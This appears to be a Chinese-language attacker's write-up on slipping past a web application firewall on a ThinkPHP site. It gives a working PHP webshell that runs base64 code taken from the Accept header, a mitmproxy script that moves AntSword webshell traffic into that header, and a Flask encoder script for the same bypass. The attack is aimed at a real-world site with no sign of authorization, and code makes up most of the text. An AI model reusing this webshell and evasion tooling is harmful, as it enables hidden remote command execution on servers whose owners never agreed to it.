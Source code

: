 ### 流量waf绕过

碰到个thinkphp很硬的站点，php7的环境，拦截的很死，拦截`<?php`，可以通过`<? ?>`短标签绕过，拦截一些关键词`eval`等函数，可以通过php伪协议写入进行绕过

这个waf还有个比较厉害的点，流量拦截，base64、rsa、aes等流量都会识别到直接reset

base64流量如下：

![800](photo/Pasted%20image%2020220504190246.png)

直接reset，没有状态码，包括其他rsa、aes也是直接reset

rsa流量如下：

![800](photo/Pasted%20image%2020220504190259.png)

直接reset，也没有状态码


后续尝试更换payload中的关键字，发现没办法绕过，这个waf还是比较智能的

中间想到了使用伪协议写大马进服务器，发现无法写入，可能请求包数据太大，想了想其他的方法

继续尝试绕过waf，这里把`payload`更换位置，猜测waf只会识别数据包的请求体，而不会去看其他的请求头，把`payload`放到请求头里，发现服务器可以得到请求，如下：

![800](https://files.mdnice.com/user/23628/09dec26a-6bee-46d2-90b7-2376b383d2bb.png)
那么就可以把之前的马：
```php
<?
@eval(base64_decode(($_POST['x'])));
?>
```
更改为：
```php
<?
@eval(base64_decode(($_SERVER['HTTP_ACCEPT'];))); // 获取Accept的参数
?>
```
然后编写mitm脚本如下：
```python
# -*- coding:utf-8 -*-
# author:f0ngf0ng
# @Date: 2022/4/9 下午9:30
# 将post的参数转移到Accept
# 配合webshell
'''
<?  @eval(base64_decode(($_SERVER['HTTP_ACCEPT']))); ?>
'''
# 配合蚁剑的myencoder mydecoder 密码设置为x

from mitmproxy import http, ctx
from urllib.parse import unquote

class Mitm:
    def request(self, flow):
        if flow.request.host != "x.x.x.x" :
            # ctx.log.info(flow.request.host)
            return

        ctx.log.info(f"payload为 {flow.request.text}")
        payload = flow.request.text.split("x=")[1].split("&")[0] # payload参数
        flow.request.headers.add("Accept",unquote(payload) )
        flow.request.set_text(flow.request.text.replace("x=" + payload , ""))

        ctx.log.info(f"发送的请求包 = {flow.request.text}")
addons = [
    Mitm()
]
```
运行命令如下：

`mitmweb -s mitm.py --listen-port 8082`

蚁剑进行代理到本地

`127.0.0.1:8082`

点击测试连接，成功

![800](photo/Pasted%20image%2020220504190342.png)


![800](photo/Pasted%20image%2020220504190355.png)
`mitmproxy`运行界面如下

![800](photo/Pasted%20image%2020220504190409.png)

命令执行界面如下：
![800](photo/Pasted%20image%2020220504190419.png)
也可以编写`autoDecoder`的加解密脚本,如下:
```python
# -*- coding:utf-8 -*-
# author:f0ngf0ng
from flask import Flask,Response,request
from pyDes import *
import base64
app = Flask(__name__)

@app.route('/encode',methods=["POST"])
def encrypt():
    body = request.form.get('dataBody')  # 获取  post 参数 必需
    headers = request.form.get('dataHeaders')  # 获取  post 参数  可选
    body_accept = body.split("x=")[1].split("&")[0] # 获取payload
    body = body.replace("x=" + body_accept,"")

    if headers != None: # 开启了请求头加密
        print(headers + "\r\n\r\n\r\n\r\n" + body)
        headers = headers + "Accept:" + body_accept + "\r\n"
        return headers + "\r\n\r\n\r\n\r\n" + body # 返回值为固定格式，不可更改

    return  body

@app.route('/decode',methods=["POST"]) # 不解密
def decrypt():
    param = request.form.get('dataBody')  # 获取  post 参数
    return param

if __name__ == '__main__':
    app.debug = True # 设置调试模式，生产模式的时候要关掉debug
    app.run(host="0.0.0.0",port="8888")
```